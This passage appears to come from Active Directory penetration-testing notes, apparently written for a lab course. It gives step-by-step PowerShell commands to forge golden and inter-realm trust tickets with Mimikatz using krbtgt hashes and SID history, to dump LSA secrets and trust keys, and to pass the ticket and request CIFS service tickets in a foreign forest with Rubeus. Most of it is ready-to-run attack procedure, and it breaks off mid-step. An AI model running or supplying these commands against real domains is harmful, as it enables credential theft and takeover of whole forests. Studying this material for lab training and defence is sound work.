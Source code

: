   ```powershell



C) Stealthier Method for creating Golden ticket using DC Account    

  - STEP 1: Fetch the NTLM hash of krbtgt account

  - STEP 2: Use mimikatz to craft TGT ticket with SIDS set to Domain Controllers & EnterPrise DC

    ```powershell
  	Invoke-Mimikatz -Command '"Kerberos::golden /user:DCORP-DC$/domain:dollarcorp.moneycorp.local /sid:SID_OF_CURRENT_DOMAIN /sids:SID_OF_DOMAIN_CONTROLLERS_ENTERPRISE_DC_FROM_PARENT_DOMAIN  /krbtgt:krbtgt_ntlm_hash  /target:moneycorp.local /ticket:trust_tkt.kirbi"'
	
    Invoke-Mimikatz -Command '"Kerberos::golden /user:DCORP-DC$ /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /target:moneycorp.local  /ticket:trust_stealth_tkt.kirbi"'




**CASE II: Privilege Escalation from one forest to other Forest (SID Filtering is enabled for external and forest level trust)**

  - STEP 1: Identify if there is trust between current domain and foreign forest

    ```powershell
    Get-NetDomainTrust

  - STEP 2: Fetch the Trust Keys of the external or forest level trust

    ```powershell
  	Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
    Invoke-Mimikatz -Command '"lsadump::trust /patch"'

  - STEP 3: Use the Trust Key to craft a TGT 

    ```powershell
    Invoke-Mimikatz -Command '"kerberos::golden /user:administrator  /domain:organicsecurity.local /sid:S-1-5-21-223322223-11111111-538504511  /rc4:d98c9dc732432432432f58a /service:krbtgt /target:anotherdomain.local /ticket:apple_trust_tkt.kirbi"'

  - STEP 4: Inject the ticket back into the memory

    ```powershell
    Invoke-Mimikatz -Command '"kerberos::ptt eurocorp_trust_tkt.kirbi"'

  - STEP 5: Request a TGS for CIFS Service on the DC of AnotherForest Domain (Possible to create TGS for other service as well like HOST,RPCSS,LDAP etc)
    
    ```powershell
    .\Rubeus.exe asktgs /ticket:eurocorp_trust_tkt.kirbi /service:CIFS/eurocorp-dc.eurocorp.local  /dc:eurocorp-dc.eurocorp.local  /ptt


  - STEP 6: Further, we can scan the ACL of the AD Objects in another forest to identify any Foreign Group Membership and ACLs which may allow the user in current domain access to specific services in another domain:

    - Scenario 1: Local Group Membership - Find if the users from current domain is member of group in another forest/domain

  ```